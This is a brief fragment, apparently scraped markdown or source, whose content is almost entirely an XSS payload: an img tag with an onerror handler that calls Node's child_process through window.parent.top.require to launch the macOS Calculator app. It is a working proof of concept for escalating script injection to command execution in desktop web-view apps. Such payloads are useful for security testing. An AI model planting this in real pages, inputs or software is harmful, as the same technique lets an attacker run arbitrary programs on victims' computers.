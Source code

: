 
<img src=x onerror="javascript:
window.parent.top.require('child_process').execFile('/Applications/Calculator.app',function(error, stdout, stderr){        if(error){
            console.log(error);
        } });">